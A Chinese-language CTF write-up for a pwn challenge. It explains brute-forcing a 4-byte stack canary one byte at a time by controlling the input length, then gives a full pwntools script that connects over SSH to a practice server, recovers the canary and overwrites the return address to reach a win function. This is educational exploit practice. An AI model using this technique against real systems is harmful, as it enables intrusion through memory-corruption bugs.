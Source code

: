 这题又是新的没遇到过的类型，我的pwn学习之路还真是挺坎坷啊...

简单介绍，这题有可以溢出的地方，并且可以自己控制读取的输入长度。但是存在一个4字节的cannary。我一开始想：4字节=32bit=2^32次方种可能，这怎么爆啊。但实际上因为我们可以控制程序获取输入的长度，所以我们完全没有必要要一次性爆破4字节的内容，我们可以第一次只覆盖一个字节的cannary，根据服务端回应信息来爆破，之后再将输入长度加1，逐个爆破剩余的字节。

```python
from pwn import *

s = ssh(host='node4.buuoj.cn', port=29718, user='CTFMan', password='guest')

win_addr = 0x80486eb
payload = b'a'*0x20
offset_to_cannary = 32
for i in range(1,5):
    for j in range(256):
        p = s.run('./vuln')
        p.sendlineafter(b'Buffer?\n>', str(offset_to_cannary+i))
        cannary_one_byte = bytes([j])
        send_payload = payload + cannary_one_byte
        # p.info('try {:d} in {:s}'.format(j, send_payload.decode()))
        p.sendlineafter(b'Input> ', send_payload)
        if b'Stack Smashing Detected' in p.recv():
            continue
        payload += cannary_one_byte
        print('cannary[{:d}]: 0x{}'.format(i-1, cannary_one_byte.hex()))
        break

log.info('canary: 0x{}'.format(payload[-4:].hex()))
payload = payload.ljust(0x30+4, b'a')
payload += p32(win_addr)

p = s.run('./vuln')
p.sendlineafter(b'Buffer?\n>', str(0x30+4+4))
p.sendlineafter(b'Input> ', payload)

p.interactive()
```